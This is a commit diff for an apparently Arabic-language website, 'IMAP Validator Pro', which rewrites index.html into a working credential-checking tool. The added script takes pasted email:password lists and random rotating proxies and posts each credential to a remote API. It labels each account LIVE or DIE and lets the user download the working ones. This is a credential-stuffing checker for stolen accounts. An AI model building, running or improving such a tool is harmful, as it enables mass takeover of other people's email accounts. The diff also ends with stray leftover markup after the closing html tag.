

Before and after one commit to ffll59544-sketch/MYTU, a website: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,64 +3,98 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Advanced IMAP Validator Pro</title>
+    <title>IMAP Validator Pro</title>
     <script src="https://cdn.tailwindcss.com"></script>
     <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
 </head>
-<body class="bg-[#0f172a] text-slate-200 min-h-screen font-sans">
+<body class="bg-[#0f172a] text-slate-200 min-h-screen p-4 md:p-8">
 
-    <div class="max-w-6xl mx-auto p-4 md:p-8">
+    <div class="max-w-6xl mx-auto">
         <div class="flex flex-col md:flex-row justify-between items-center mb-8 gap-4">
-            <h1 class="text-3xl font-black bg-gradient-to-r from-blue-400 to-emerald-400 bg-clip-text text-transparent">
-                IMAP NODE VALIDATOR v2.0
-            </h1>
+            <h1 class="text-3xl font-black bg-gradient-to-r from-blue-400 to-emerald-400 bg-clip-text text-transparent">نظام فحص الحسابات v2.0</h1>
             <div class="flex gap-2">
-                <button onclick="downloadResults('success')" class="bg-emerald-600/20 text-emerald-400 border border-emerald-600/50 px-4 py-2 rounded-lg text-sm hover:bg-emerald-600 hover:text-white transition">
-                    <i class="fas fa-download ml-2"></i> تحميل الناجح
-                </button>
-                <button onclick="downloadResults('failed')" class="bg-red-600/20 text-red-400 border border-red-600/50 px-4 py-2 rounded-lg text-sm hover:bg-red-600 hover:text-white transition">
-                    <i class="fas fa-trash ml-2"></i> تحميل الفاشل
-                </button>
+                <button onclick="downloadResults('success')" class="bg-emerald-600/20 text-emerald-400 border border-emerald-600/50 px-4 py-2 rounded-lg text-sm hover:bg-emerald-600 hover:text-white transition">تحميل الناجح</button>
+                <button onclick="downloadResults('failed')" class="bg-red-600/20 text-red-400 border border-red-600/50 px-4 py-2 rounded-lg text-sm hover:bg-red-600 hover:text-white transition">تحميل الفاشل</button>
             </div>
         </div>
 
-        <div class="grid grid-cols-1 md:grid-cols-4 gap-4 mb-8">
-            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl">
-                <p class="text-slate-400 text-sm">إجمالي القائمة</p>
-                <p id="totalCount" class="text-3xl font-bold">0</p>
-            </div>
-            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl border-b-4 border-b-blue-500">
-                <p class="text-slate-400 text-sm">جاري الفحص</p>
-                <p id="checkingCount" class="text-3xl font-bold text-blue-400">0</p>
-            </div>
-            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl border-b-4 border-b-emerald-500">
-                <p class="text-slate-400 text-sm">متصل (Live)</p>
-                <p id="successCount" class="text-3xl font-bold text-emerald-400">0</p>
-            </div>
-            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl border-b-4 border-b-red-500">
-                <p class="text-slate-400 text-sm">مرفوض (Die)</p>
-                <p id="failCount" class="text-3xl font-bold text-red-400">0</p>
-            </div>
+        <div class="grid grid-cols-2 md:grid-cols-4 gap-4 mb-8">
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl text-center"><p class="text-slate-400 text-sm">الإجمالي</p><p id="totalCount" class="text-3xl font-bold">0</p></div>
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl text-center border-b-4 border-b-blue-500"><p class="text-slate-400 text-sm">جاري الفحص</p><p id="checkingCount" class="text-3xl font-bold text-blue-400">0</p></div>
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl text-center border-b-4 border-b-emerald-500"><p class="text-slate-400 text-sm">ناجح (LIVE)</p><p id="successCount" class="text-3xl font-bold text-emerald-400">0</p></div>
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl text-center border-b-4 border-b-red-500"><p class="text-slate-400 text-sm">فاشل (DIE)</p><p id="failCount" class="text-3xl font-bold text-red-400">0</p></div>
         </div>
 
         <div class="grid grid-cols-1 lg:grid-cols-3 gap-8">
-            <div class="lg:col-span-1 space-y-6">
-                <div class="bg-slate-800 p-6 rounded-2xl shadow-xl border border-slate-700">
-                    <label class="block text-sm font-medium mb-2 text-slate-400 text-right">قائمة الحسابات (email:pass)</label>
-                    <textarea id="accountsInput" class="w-full h-64 bg-slate-900 border border-slate-700 rounded-xl p-4 text-sm focus:ring-2 focus:ring-blue-500 outline-none resize-none" placeholder="example@outlook.com:password123"></textarea>
-
-                    <label class="block text-sm font-medium mt-4 mb-2 text-slate-400 text-right">قائمة البروكسي (اختياري)</label>
-                    <textarea id="proxyInput" class="w-full h-32 bg-slate-900 border border-slate-700 rounded-xl p-4 text-sm focus:ring-2 focus:ring-blue-500 outline-none resize-none" placeholder="ip:port:user:pass"></textarea>
-
-                    <button onclick="startValidation()" id="startBtn" class="w-full mt-6 bg-blue-600 hover:bg-blue-700 text-white font-bold py-4 rounded-xl shadow-lg shadow-blue-900/20 transition-all flex items-center justify-center gap-2">
-                        <i class="fas fa-bolt"></i> تشغيل النظام
-                    </button>
-                </div>
+            <div class="lg:col-span-1 space-y-6 bg-slate-800 p-6 rounded-2xl border border-slate-700 shadow-xl">
+                <textarea id="accountsInput" class="w-full h-64 bg-slate-900 border border-slate-700 rounded-xl p-4 text-sm outline-none" placeholder="الحسابات بصيغة email:pass"></textarea>
+                <textarea id="proxyInput" class="w-full h-32 bg-slate-900 border border-slate-700 rounded-xl p-4 text-sm outline-none" placeholder="البروكسي (اختياري) ip:port:user:pass"></textarea>
+                <button onclick="startValidation()" id="startBtn" class="w-full bg-blue-600 hover:bg-blue-700 text-white font-bold py-4 rounded-xl transition-all shadow-lg">بدء تشغيل النظام</button>
             </div>
 
-            <div class="lg:col-span-2">
-                <div class="bg-slate-800 rounded-2xl border border-slate-700 overflow-hidden shadow-xl">
-                    <div class="overflow-x-auto max-h-[700px]">
+            <div class="lg:col-span-2 bg-slate-800 rounded-2xl border border-slate-700 overflow-hidden shadow-xl">
+                <div class="overflow-x-auto max-h-[600px]"><table class="w-full text-right"><thead class="bg-slate-700/50 sticky top-0"><tr><th class="p-4 text-sm">الحساب</th><th class="p-4 text-sm">البروكسي</th><th class="p-4 text-sm text-center">الحالة</th></tr></thead><tbody id="resultsTable" class="divide-y divide-slate-700"></tbody></table></div>
+            </div>
+        </div>
+    </div>
+
+    <script>
+        let successList = []; let failedList = []; let isRunning = false;
+        async function startValidation() {
+            const accounts = document.getElementById('accountsInput').value.trim().split('\n');
+            const proxies = document.getElementById('proxyInput').value.trim().split('\n').filter(p => p !== "");
+            const table = document.getElementById('resultsTable');
+            const btn = document.getElementById('startBtn');
+            if (!accounts[0]) return alert("أدخل حسابات للفحص");
+
+            isRunning = true; btn.disabled = true; btn.innerText = 'جاري التحقق...';
+            document.getElementById('totalCount').innerText = accounts.length;
+            let s = 0, f = 0, c = 0;
+
+            for (let account of accounts) {
+                if (!isRunning || !account.includes(':')) continue;
+                c++; document.getElementById('checkingCount').innerText = c;
+                const proxy = proxies.length > 0 ? proxies[Math.floor(Math.random() * proxies.length)] : "مباشر";
+                const row = table.insertRow(0);
+                row.className = "bg-slate-800/30";
+                row.insertCell(0).innerText = account.split(':')[0];
+                row.insertCell(1).innerText = proxy;
+                const statusCell = row.insertCell(2);
+                statusCell.className = "p-4 text-center font-bold text-blue-400";
+                statusCell.innerText = "جاري الاتصال...";
+
+                try {
+                    const response = await fetch('https://mytu-beige.vercel.app/api/verify', {
+                        method: 'POST',
+                        headers: { 'Content-Type': 'application/json' },
+                        body: JSON.stringify({ account: account.trim(), proxy: proxy })
+                    });
+                    const data = await response.json();
+                    if (data.status === 'SUCCESS') {
+                        statusCell.innerHTML = '<span class="text-emerald-500">LIVE</span>';
+                        successList.push(account); s++; document.getElementById('successCount').innerText = s;
+                    } else {
+                        statusCell.innerHTML = '<span class="text-red-500">DIE</span>';
+                        failedList.push(account); f++; document.getElementById('failCount').innerText = f;
+                    }
+                } catch (e) { statusCell.innerText = "خطأ"; f++; }
+                c--; document.getElementById('checkingCount').innerText = c;
+            }
+            btn.disabled = false; btn.innerText = 'إعادة التشغيل';
+        }
+
+        function downloadResults(type) {
+            const list = type === 'success' ? successList : failedList;
+            if (list.length === 0) return alert("لا توجد نتائج");
+            const blob = new Blob([list.join('\n')], { type: 'text/plain' });
+            const a = document.createElement('a');
+            a.href = URL.createObjectURL(blob);
+            a.download = `results_${type}.txt`;
+            a.click();
+        }
+    </script>
+</body>
+</html>
                         <table class="w-full text-right">
                             <thead class="bg-slate-700/50 sticky top-0 backdrop-blur-md">
                                 <tr>
```
